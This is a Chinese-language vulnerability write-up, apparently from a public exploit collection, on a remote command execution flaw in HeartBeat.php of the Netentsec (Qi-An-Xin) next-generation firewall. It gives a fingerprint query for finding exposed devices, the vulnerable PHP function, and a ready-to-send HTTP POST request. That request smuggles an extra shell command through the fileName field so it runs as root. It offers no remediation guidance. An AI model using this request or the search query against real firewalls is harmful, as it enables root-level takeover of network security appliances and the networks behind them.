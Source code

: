 # 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![image-20230314085835290](images/image-20230314085835290.png)

出现漏洞的文件 applications/Models/NS/Rpc/HeartBeat.php

![image-20230314085853048](images/image-20230314085853048.png)

```
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![image-20230314085915971](images/image-20230314085915971.png)

访问写入的文件

![image-20230314085928381](images/image-20230314085928381.png)